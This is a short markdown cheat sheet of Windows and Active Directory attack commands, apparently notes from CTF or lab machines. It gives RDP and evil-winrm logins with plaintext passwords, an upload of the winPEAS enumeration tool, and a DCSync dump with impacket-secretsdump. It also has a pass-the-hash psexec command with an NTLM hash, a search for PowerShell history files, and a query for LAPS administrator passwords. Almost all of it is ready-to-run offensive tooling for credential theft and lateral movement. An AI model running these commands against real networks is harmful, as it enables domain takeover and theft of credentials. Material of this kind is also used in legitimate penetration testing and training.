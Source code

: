# Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm

connect to system with eveil-winrm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
command to upload files through win-rm
```
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

##### look for Console_Host_History file 
```
Get-ChildItem -Path C:\ -Include ConsoleHost_history*.txt -File -Recurse -ErrorAction SilentlyContinue
```

#### If in the LAPS reader group : 
```
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd
```
